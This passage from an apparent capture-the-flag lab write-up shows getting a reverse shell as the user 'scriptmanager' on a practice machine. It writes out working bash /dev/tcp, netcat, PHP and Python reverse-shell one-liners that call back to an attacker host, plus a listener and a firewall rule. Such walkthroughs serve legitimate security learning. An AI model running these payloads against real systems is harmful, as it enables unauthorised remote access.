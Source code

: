 It's much better to just make a reverse shell as scriptmanager:



### Reverse shell

Based on which tools are present, discovered in foothold step (4), I run through a list of useful reverse shells. These can all be [found on GTFObins](https://gtfobins.github.io/), along with many more.

First things first, on the attacker box make a new firewall rule to allow the reverse shell from this target:

```bash
sudo ufw allow from 10.10.10.68 to any port 4444 proto tcp
```

Also on the attacker box, set up a netcat listener:

```bash
bash
nc -lvnp 4444
```

> ☝️ Changing to Bash (instead of my default, zsh) will set us up for success in *upgrading the shell* later on.

Then, on the target box, try to connect back to the attacker box:

```bash
sudo -u scriptmanager bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'
```

👎 Nope.

...try to connect back to the attacker box:

```bash
sudo -u scriptmanager nc -e /bin/sh 10.10.14.10 4444
```

👎 Nope. `-e` flag is not supported.

... * *cough* * try to connect back to the attacker box??

```
sudo -u scriptmanager php -r '$sock=fsockopen("10.10.14.10",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

👎 That's a hard nope, buddy.

But like... try to connect back to the attacker box..?

```bash
sudo -u scriptmanager python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

😝 Now that's more like it!

![reverse shell](reverse%20shell.png)
